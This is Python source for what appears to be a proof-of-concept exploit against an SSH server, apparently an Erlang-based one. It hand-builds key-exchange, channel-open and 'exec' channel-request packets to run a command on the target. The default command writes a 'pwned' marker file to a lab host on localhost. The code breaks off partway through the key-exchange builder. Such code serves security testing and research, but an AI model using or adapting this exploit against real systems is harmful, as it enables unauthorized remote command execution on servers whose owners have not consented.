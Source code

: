 ```python
import socket
import struct
import time

HOST = "127.0.0.1"  # Target IP (change if needed)
PORT = 2222  # Target port (change if needed)


# Helper to format SSH string (4-byte length + bytes)
def string_payload(s):
    s_bytes = s.encode("utf-8")
    return struct.pack(">I", len(s_bytes)) + s_bytes


# Builds SSH_MSG_CHANNEL_OPEN for session
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )


# Builds SSH_MSG_CHANNEL_REQUEST with 'exec' payload
def build_channel_request(channel_id=0, command=None):
    if command is None:
        command = 'file:write_file("/lab.txt", <<"pwned">>).'
    return (
        b"\x62"  # SSH_MSG_CHANNEL_REQUEST
        + struct.pack(">I", channel_id)
        + string_payload("exec")
        + b"\x01"  # want_reply = true
        + string_payload(command)
    )


# Builds a minimal but valid SSH_MSG_KEXINIT packet
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
```